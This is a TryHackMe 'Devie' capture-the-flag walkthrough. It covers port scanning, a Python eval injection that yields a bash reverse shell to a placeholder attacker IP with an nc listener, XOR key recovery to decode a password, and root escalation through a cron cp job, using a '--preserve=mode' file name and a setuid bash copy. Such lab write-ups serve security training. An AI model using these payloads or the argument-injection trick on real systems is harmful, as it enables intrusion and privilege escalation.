 ```yaml
---
title: "Devie | TryHackMe"
collection: publications
permalink: /publication/devie
excerpt: 'This is a subscriber only room from TryHackMe'
date: 2023-06-28
venue: '06-28'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/devie-header.png)

**LINK :** [Devie](https://tryhackme.com/room/devie)

# Enumeration : 

* Let's start by looking for open ports.

```console
└─# nmap -sC -sV -T4 10.10.152.117
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-27 09:51 EDT
Nmap scan report for 10.10.152.117
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c9727bf5b62ed5995614de43093a6492 (RSA)
|   256 0b75585ab9f75ba9ffefad71c1090a33 (ECDSA)
|_  256 7df9c9f867f9954e016823a47b8c9830 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.8.10
|     Date: Tue, 27 Jun 2023 13:51:28 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 4486
|     Connection: close
```
* We have 2 open ports, ``ssh`` running on port ``22`` and a web application running on port ``5000``
* Visiting ``http://X.X.X.X:5000``, we see a Math Formulas page.

![devie1](/images/devie1.png)

* You can see below a link to download the code source.

![devie2](/images/devie2.png)

* We have 4 python scripts.
* The main function is in ``app.py``, while i was reading the script, i noticed that the ``bisect`` function uses ``eval`` which is vulnerable to command injection.

![devie3](/images/devie3.png)

> [Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)

* All we need to do now is to inject a payload into the ``xa`` parameter of the ``bisect`` function, for that i will use ``burp suite``.

![devie4](/images/devie4.png)

# Flag 1 :

* As you can see we have to add ``#`` at the end of the injected payload to comment out the rest of the expression.

```console
__import__('os').system('/bin/bash -c \'bash+-i+>%26+/dev/tcp/<your-ip-address>/4444+0>%261\'')
```

> Dont forget to add your ip address and url-encode the payload.

![devie5](/images/devie5.png)

* Before send the request, you should open a netcat listener.

```console
nc -lvnp 4444
```

![devie6](/images/devie6.png)

# Flag 2 :

* I found a note in Bruce's home directory 

![devie7](/images/devie7.png)

* So as you can see Gordon shares his encoded XOR password.

* Let's see our sudo privileges

![devie8](/images/devie8.png)

* So as you can see we can run ``encrypt.py`` as ``gordon```

![devie9](/images/devie9.png)

* So the idea here is to enter ``hammertime4444`` as password and grab the output which XORed,base64-encoded password, then pass it to [Cyberchef](https://gchq.github.io/CyberChef/), As a recipe we will use ``from base64`` and ``XOR`` with the password entered using ``encrypt.py`` as the key.

![devie10](/images/devie10.png)

* [4] is the key

* Now we have the key used in the XOR operation.

> The special thing about ``XOR`` is because we know the initial and final value of the password, we can extract the key used in the XOR operation.

* Now it's time to decode the encoded string from Gordan's note using the key we found.

![devie11](/images/devie11.png)

* Switch user to ``Gordon`` and get your 2nd flag.

![devie12](/images/devie12.png)

> The password works also for ``SSH``.

# Flag 3 :

* We found a ``reports`` and ``backups`` folders which seems to be copies of each others with the copied files stored in the ``backups`` folder.

![devie13](/images/devie13.png)

* I spent a lot of times trying to figure out what's the next step until i noticed that the time of backups directory files changes every minutes and the ownership of these files is ``root`` so a backup job is most likely running as ``root``.

* It's time to use ``pspy`` to snoop on processes without need for root permissions.

> [Pspy](https://github.com/DominicBreuker/pspy)

![devie14](/images/devie14.png)

* As you can see there is a ``backup`` script that get executed every minute, let's see what this script is used for.

![devie15](/images/devie15.png)

* If we put any binary into ``reports`` folder, it will be copied to ``backups`` folder with ``root`` ownership.
* My idea is to copy ``/bin/bash`` to ``reports`` folder and assign it the **setuid bit**, but the problem is that privilege will not be copied by ``cp`` command by default, fortunately we can create a file named ``--preserve=mode`` so the permission is maintained when it gets copied to the ``backups`` folder.

> [Preservation mode](https://www.makeuseof.com/preserve-file-permissions-in-linux-while-copying-them/)

![devie16](/images/devie16.png)

![devie17](/images/devie17.png)

* We wait one minute for the cron to execute, change directory to ``backups`` folder and you should see the ``bash`` binary with **setuid bit**.

![devie18](/images/devie8.png)

* Execute this command and get the root flag.

```console
./bash -p
```

![devie19](/images/devie19.png)